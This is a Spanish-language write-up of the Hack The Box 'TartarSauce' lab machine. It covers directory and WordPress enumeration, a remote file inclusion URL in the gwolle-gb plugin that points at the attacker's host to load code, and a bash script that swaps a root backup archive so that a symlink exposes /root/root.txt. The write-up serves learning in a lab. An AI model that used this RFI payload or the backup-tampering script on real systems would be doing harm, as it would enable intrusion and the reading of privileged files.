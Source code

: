 # TartarSauce-HTB

## Nmap

![image](https://github.com/gecr07/TartarSauce-HTB/assets/63270579/c7ffdab0-afe6-4080-938b-002e3fc39235)

## Dirbuster

Para encontrar lo que sea es de las mejores tools aunque aveces de tantas peticiones llena los logs lo que hace que las maquinas no funcionen como deberian.

```
dirbuster -u http://10.129.1.185/ -t 200 -l /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -r dirout.ext -e php,txt,html
```

Todo lo demas que se encuentra en robots.txt son rabbit holes porquen o se puede hacer nada. Se encontro un WP 

### WP scan

Esta herramienta ayuda a enumerar el WP sin embargo, en esta ocacion no me detecto nada!

```
wpscan --detection-mode aggressive -e u,p --url http://10.129.1.185/webservices/wp 
```

Un check que siempre tienes que hacer es ver si tiene plugins aunque no encontro nada wpscan checa a ver si estan en el directorio donde siempre estan  aparte fuzzea 


```
wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt  http://10.129.1.185/webservices/wp/FUZZ 
```

![image](https://github.com/gecr07/TartarSauce-HTB/assets/63270579/f2fec32d-79c9-4394-b184-0b9501cf9041)


![image](https://github.com/gecr07/TartarSauce-HTB/assets/63270579/3f211fe4-93f0-4483-b8a8-11e398930402)


## RCE 

Buscamos y un plugin parece vulnerable.

![image](https://github.com/gecr07/TartarSauce-HTB/assets/63270579/3d793bf5-6436-4edc-bb21-b183dc781556)

```
http://10.129.1.185/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.108
```

## Privilege Esc

Lo que apredi en est maquina es que no importa que no tengas credenciales siempre intenta el sudo -l. Nos damos cuenta que se puede ejecutar tar con privilegios de otro usuario


![image](https://github.com/gecr07/TartarSauce-HTB/assets/63270579/0bc1f184-2c6d-41e1-addd-98af3f35c7cb)

Para los procesos que esta corriendo usa el PSPY

![image](https://github.com/gecr07/TartarSauce-HTB/assets/63270579/82875496-0d4d-4342-bf70-52ecd051a176)

```
#!/bin/bash

# work out of shm
cd /dev/shm

# set both start and cur equal to any backup file if it's there
start=$(find /var/tmp -maxdepth 1 -type f -name ".*")
cur=$(find /var/tmp -maxdepth 1 -type f -name ".*")

# loop until there's a change in cur
echo "Waiting for archive filename to change..."
while [ "$start" == "$cur" -o "$cur" == "" ] ; do
    sleep 10;
    cur=$(find /var/tmp -maxdepth 1 -type f -name ".*");
done

# Grab a copy of the archive
echo "File changed... copying here"
cp $cur .

# get filename
fn=$(echo $cur | cut -d'/' -f4)

# extract archive
tar -zxf $fn

# remove robots.txt and replace it with link to root.txt
rm var/www/html/robots.txt
ln -s /root/root.txt var/www/html/robots.txt

# remove old archive
rm $fn

# create new archive
tar czf $fn var

# put it back, and clean up
mv $fn $cur
rm $fn
rm -rf var

# wait for results
echo "Waiting for new logs..."
tail -f /var/backups/onuma_backup_error.txt
```

Aqui la vulnerabilidad reside en que diff es ejecutado con priv de root lo que hace que al abrir el archivo muestre la flag.



























